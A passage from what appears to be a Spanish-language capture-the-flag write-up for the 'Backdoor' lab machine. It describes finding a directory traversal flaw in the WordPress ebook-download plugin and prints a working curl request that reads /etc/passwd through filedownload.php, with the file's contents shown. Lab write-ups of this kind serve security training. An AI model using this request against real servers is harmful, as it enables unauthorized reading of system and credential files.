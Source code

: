 Utilizando **Searchsploit**, se identificó que el plugin `ebook-download` es vulnerable a un ataque de **Directory Traversal**. 
![3](/assets/img/machines/backdoor/3.jpeg)

Esta vulnerabilidad permite acceder a archivos arbitrarios del sistema al manipular los parámetros de descarga del plugin, lo que representa un vector claro para acceder a información sensible del servidor.
![4](/assets/img/machines/backdoor/4.jpeg)

## LFI to RCE

Aprovechando la vulnerabilidad de **Directory Traversal** en el plugin `ebook-download`, se logró acceder a archivos sensibles del sistema. Mediante una solicitud `curl` hacia el archivo vulnerable (`filedownload.php`) con el parámetro `ebookdownloadurl` apuntando a `/etc/passwd`.

```bash
❯ curl -s -X GET http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php\?ebookdownloadurl\=/etc/passwd

/etc/passwd/etc/passwd/etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
```